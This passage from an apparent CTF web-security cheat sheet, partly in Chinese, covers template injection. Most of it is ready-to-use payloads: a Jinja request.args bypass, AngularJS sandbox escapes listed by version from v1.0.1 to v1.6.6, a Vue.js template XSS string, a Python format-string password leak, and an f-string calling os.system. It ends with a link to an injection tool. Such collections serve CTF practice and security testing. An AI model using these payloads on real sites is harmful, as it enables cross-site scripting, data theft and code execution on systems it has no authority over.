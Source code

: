 - 用request绕
    - `{{''.__class__}}`
        - `{{''[request.args.kaibro]}}&kaibro=__class__`

## AngularJS
- v1.6后移除Sandbox
- Payload
    - `{{ 7*7 }}` => 49
    - `{{ this }}`
    - `{{ this.toString() }}`
    - `{{ constructor.toString() }}`
    - `{{ constructor.constructor('alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}` 2.3 v1.2.19-v1.2.23
    - `{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}` v1.2.24-v1.2.29
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}` v1.3.20
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}` v1.4.0-v1.4.9
    - `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}` v1.5.0-v1.5.8
    - `{{ [].pop.constructor('alert(1)')() }}` 2.8 v1.6.0-1.6.6

## Vue.js
- `{{constructor.constructor('alert(1)')()}}`
- https://github.com/dotboris/vuejs-serverside-template-xss

## Python
- `%`
    - 输入`%(passowrd)s`即可偷到密码：
    ```python
    userdata = {"user" : "kaibro", "password" : "ggininder" }
    passwd  = raw_input("Password: ")
    if passwd != userdata["password"]:
        print ("Password " + passwd + " is wrong")
    ```
- `f`
    - python 3.6
    - example
        - `a="gg"`
        - `b=f"{a} ininder"`
            - `>>> gg ininder`
    - example2
        - `f"{os.system('ls')}"`

## Tool
- https://github.com/epinna/tplmap

---